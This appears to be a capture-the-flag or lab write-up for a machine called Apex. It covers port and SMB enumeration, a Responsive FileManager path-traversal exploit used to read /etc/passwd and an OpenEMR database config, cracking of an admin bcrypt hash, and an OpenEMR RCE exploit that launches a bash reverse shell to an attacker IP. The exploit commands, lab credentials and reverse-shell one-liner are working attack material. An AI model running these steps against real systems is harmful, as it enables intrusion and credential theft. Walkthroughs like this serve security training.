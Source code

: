 # Apex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.145
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:07 +08
Nmap scan report for 192.168.183.145
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Interesting ports open.&#x20;

### SMB Enumeration

Using `smbmap`, we can find some shares that are open.

```
$ smbmap -H 192.168.183.145              
[+] Guest session       IP: 192.168.183.145:445 Name: 192.168.183.145                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        docs                                                    READ ONLY       Documents
        IPC$                                                    NO ACCESS       IPC Service (APEX server (Samba, Ubuntu))
```

The `docs` share just had some files related to OpenEMR:

```
$ smbclient -N //192.168.183.145/docs        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 23:47:12 2021
  ..                                  D        0  Fri Apr  9 23:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

### Web Enumeration --> FileManager LFI

Port 80 shows a medical website:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

SMB enumeration revealed that this website might be running a vulnerable version of OpenEMR, and there are quite a few RCE exploits for OpenEMR.

However, most of these require credentials. I scanned the website for potential directories to other services, and found a File Manager using `gobuster`:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.145 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.145
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 22:11:27 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.145/assets/]
/thumbs               (Status: 301) [Size: 319] [--> http://192.168.183.145/thumbs/]
/source               (Status: 301) [Size: 319] [--> http://192.168.183.145/source/]
/filemanager          (Status: 301) [Size: 324] [--> http://192.168.183.145/filemanager/]
```

When we visit `/filemanager`, we can see that it is running Responsive FileManager:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

There are a few exploits related to this:

```
$ searchsploit responsive FileManager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Responsive Filemanager 9.13.1 - Server-Side Request Forger | linux/webapps/45103.txt
Responsive FileManager 9.13.4 - 'path' Path Traversal      | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities   | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal      | php/webapps/45271.txt
----------------------------------------------------------- ---------------------------------
```

The LFI works!

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<TRUNCATED>
```

### SQL Creds --> RCE

Since we have LFI, we can try reading the SQL credentials that are present within OpenEMR (based on reading the OpenEMR Github repository).&#x20;

{% embed url="https://github.com/openemr/openemr/blob/master/sites/default/sqlconf.php" %}

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php 
[*] Copy Clipboard
[*] Paste Clipboard
```

There was something blocking us from reading PHP files here, and its probably the `.htaccess` file. Within the FileManager instance, I noticed that the same PDFs on SMB were present within it.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

The LFI exploit copies and pastes files into directories, and this means that we should be able to read the file from the SMB share. We just need to modify the `paste_clipboard` function within the exploit:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

After changing the directories a few times, I got it within the SMB share:

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard

$ smbclient -N //192.168.183.145/docs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 11 22:30:24 2023
  ..                                  D        0  Tue Jul 11 22:20:07 2023
  sqlconf.php                         N      639  Tue Jul 11 22:30:24 2023
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

Here's its contents:

```php
$ cat sqlconf.php   
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';
```

Now we have some SQL creds, we can login to the database present.&#x20;

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

We can then find the credentials for OpenEMR:

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.176 sec)
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:06 DONE (2023-07-11 22:36) 0.1474g/s 6430p/s 6430c/s 6430C/s versus..telmo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can run the RCE exploit for OpenEMR:

{% code overflow="wrap" %}
```
$ python2 45161.py -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1' http://192.168.183.145/openemr
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

The `root` user has the same password as the MySQL database of `thedoctor`:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
